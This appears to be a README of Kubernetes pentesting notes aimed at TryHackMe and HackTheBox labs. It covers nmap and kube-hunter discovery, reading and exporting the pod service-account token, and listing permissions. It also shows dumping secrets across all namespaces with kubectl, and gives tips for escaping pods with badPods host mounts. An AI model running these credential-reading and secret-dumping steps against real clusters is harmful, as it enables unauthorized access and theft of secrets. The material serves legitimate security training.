 # Kubernetes Exploit Hub

## Description
These are a collection of methods and tools I've found useful on pentesting Kubernetes Clusters. 

### Discovery and Enumeration
**Discovery with nmap (Sample with IP Address):**

```
nmap -A -T4 -p- -oA Kubernetes1 10.10.197.28
```

Pay attention to DNS names from NMAP scan outputs as they can give away that you are working with a Kubernetes environment when you have a cluster operating on a non standard port. 

**Discovering Kubernetes Clusters with Kube Hunter:**

Software URL:https://github.com/aquasecurity/kube-hunter

Installation:
```
sudo pip3 install kube-hunter
```

Example Output:

[Insert Screenshot Here]

### Initial Exploitation

After Gaining access to a cluster. Usually by misconfiguration with the application that it is hosting. PHP, Grafana, etc.

**Service Account Token Location**
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

Dropping out token and exporting it with your current terminal session:
```
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

```
export TOKEN={TOKEN]
```

Example Output:

[Insert Screenshot Here]

**Checking your permissions with the current token that you have(remote command):**
```
kubectl --server https://serverip:port --token=$TOKEN auth can-i --list
```

If cluster is running a self sign certificate then add insecure tls to your command:
```
kubectl --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify auth can-i --list
```
**Checking your permissions with the current token that you have (Local Commands):**

This is basically the same thing as above with the exception that you are dropping the --server command

ProTip: If you need to do file transfers to a pod. Its very possible you may be in a pod without wget or curl commands. Normally I am only transferring kubectl and a poisoned pod of some sort. Pwncat-cs has been an excellent choice not only from an upload standpoint but you will have a nice full tty session to work with as well. 

Github: https://github.com/calebstewart/pwncat

Installation:

```
pip install pwncat-cs
```

Install with venv (What I would recommend so you don't impact other projects with python version dependicies on your attack box.) 

```
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

Check Permissions:
```
kubectl --token=$TOKEN auth can-i --list
```

**Checking out what PODS are running**
(Remote):
```
kubectl get pods --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl get pods --token=$TOKEN
```
**Get POD Configurations**

This is useful if you need to produce an image of the same type with a posioned pod for later. 

(Local):
```
./kubectl get pod php-deploy-6d998f68b9-wlslz --token=$TOKEN -o yaml
```
**Hunting for API's and getting secrets from them**

Get API's

(Remote):
```
kubectl api-resources --server https://ip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl api-resources --token=$TOKEN --insecure-skip-tls-verify
```

Get namespaces from within API Example is through a API called "secrets":

(Remote):
```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets --all-namespaces
```

(Local):
```
kubectl --token=$TOKEN secrets --all-namespaces
```

Pull up YAML output of name/namespaces(example for flag3):

```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
```

### Escaping with bad pods

URL Reference: https://github.com/BishopFox/badPods

**Tips and Tricks with bad pods:**

If Isolated from internet include this in your yaml config:

```
imagePullPolicy: IfNotPresent
```

Always make note of your mount point when breaking out from a pod. This will be in your yaml config of your bad pod. For example this will make your mount point at /host:

```
volumeMounts:
    - mountPath: /host
      name: noderoot
```
## Penetration Testing Resources on Kubernetes

**Try Hack Me Rooms:**

Insekube: https://tryhackme.com/room/insekube

Frank & Herby make an app: https://tryhackme.com/room/frankandherby

Frank and Herby try again: https://tryhackme.com/room/frankandherbytryagain

PalsForLife: https://tryhackme.com/room/palsforlife

Kubernetes for Everyone: https://tryhackme.com/room/kubernetesforyouly

Island Orchestration: https://tryhackme.com/room/islandorchestration

**Hack The Box rooms**

Unobtainium: https://app.hackthebox.com/machines/Unobtainium

